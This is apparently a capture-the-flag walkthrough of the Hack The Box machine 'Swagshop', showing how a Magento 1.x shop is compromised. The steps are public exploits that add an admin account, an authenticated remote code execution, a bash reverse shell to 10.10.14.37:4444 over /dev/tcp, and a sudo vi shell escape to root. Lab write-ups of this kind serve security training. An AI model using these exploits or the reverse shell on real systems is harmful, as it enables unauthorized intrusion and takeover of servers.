# Swagshop

### Machine Info


#### Nmap



##### HTTP (Port 80)



`/app/Mage.php` could include version info but cannot read.


http://10.10.10.140/RELEASE_NOTES.txt



Based on release notes we can assume that this is magento version 1.7.0.2.



But I found that copyright for application is 2014 which means this could be magento version 1.9.


I am not sure but I think this could be between 1.7.0.2 and 1.9.


.

Searched for public exploits and I found 2 interesting exploits `37811.py` and `37977.py` as both exploits are about `RCE(Remote Code Execution)`.


Let's check for `37977.py` first as we are not authenticated yet:




The exploit target for this url `/admin/Cms_Wysiwyg/directive/index`. If we have that address maybe we could exploit with this exploit:


We can access to that particular address but redirected to admin login page. Let's just try this exploit as this will create admin account for us.

Modification of Exploit:


Execute exploit:
```
❯ python magento_create_admin.py
WORKED
Check http://10.10.10.140/index.php/admin with creds hacker:hacker
```

Then try login with `hacker:hacker` and we can get admin panel:



From the admin panel, I could check the version of `magento`:


Now we are authenticated so we can try the other exploit `37811.py` which requires `authenticated`.

First modify exploit:


Then execute:


I don't know why it makes error so let's check by using `burp`:



As we can see from the `burp`, the option value `7d` is selected and it returns `No Data Found`. This could be an issue. I will change this to `1y`:



Execute:


still retunrs `No Data Found`.

Change to `2y` and try again:


This time we got different result and it worked:



Now we can try to get reverse shell with different argument:
```
❯ python magento_rce.py http://10.10.10.140/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'"
```

`nc` listener on attacking side:


#### Privilege Escalation

Check for `sudo`:


Execute `sudo /usr/bin/vi /var/www/html/*` and from the vi editor just `:!sh` which executes a shell:




And you can get `root.txt` :)
